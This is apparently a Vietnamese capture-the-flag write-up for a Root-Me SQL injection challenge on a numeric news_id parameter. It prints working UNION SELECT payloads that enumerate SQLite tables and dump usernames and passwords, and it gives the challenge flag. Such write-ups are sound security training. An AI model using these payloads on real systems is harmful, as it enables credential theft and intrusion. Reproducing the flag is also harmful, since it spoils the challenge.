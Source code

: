 # WRITE UP

**Challenge:** [SQL injection - Numeric](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-Numeric)

<img src="./media/image1.png" style="width:6.5in;height:1.55208in" alt="Shape Description automatically generated with low confidence" />

Thử bypass qua login thì không thể thực hiện được.

<img src="./media/image2.png" style="width:6.5in;height:1.70278in" alt="Shape Description automatically generated with medium confidence" />

Kiểm tra các thẻ khác trong Home vì nhận thấy điều đặc biệt rằng, 3 link này đều dẫn đến **action=news&news\_id=\[x\].** Thử xóa id của news thì phát hiện database bị lỗi:

<img src="./media/image3.png" style="width:6.5in;height:2.35903in" alt="Graphical user interface, text, application Description automatically generated" />

Database của server là SQLite3. Tương tự bài SQL Injection – String, ta thực hiện inject nó để tìm ra admin. Ta dò được số cột là 3:

<img src="./media/image4.png" style="width:6.5in;height:1.77778in" alt="Graphical user interface, text, application Description automatically generated" />

Payload: [challenge01.root-me.org/web-serveur/ch18/?action=news&news\_id=1 union select 1,1,1 from sqlite\_master](http://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=1%20union%20select%201,1,1%20from%20sqlite_master)

Ta dò được có 2 bảng users và news:

<img src="./media/image5.png" style="width:6.5in;height:1.88889in" alt="Graphical user interface, text, application Description automatically generated" />

Payload: [challenge01.root-me.org/web-serveur/ch18/?action=news&news\_id=1 union select 1,1,name from sqlite\_master](http://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=1%20union%20select%201,1,name%20from%20sqlite_master)

Tương tự bài String, ta show ra được username và password của users:

<img src="./media/image6.png" style="width:6.5in;height:2.3in" alt="Graphical user interface, text, application Description automatically generated" />

Payload: [challenge01.root-me.org/web-serveur/ch18/?action=news&news\_id=1 union select 1,username,password from users](http://challenge01.root-me.org/web-serveur/ch18/?action=news&news_id=1%20union%20select%201,username,password%20from%20users)

Login vào thành công:

<img src="./media/image7.png" style="width:6.5in;height:1.95764in" alt="Graphical user interface, text, application Description automatically generated" />

**Flag:** aTlkJYLjcbLmue3
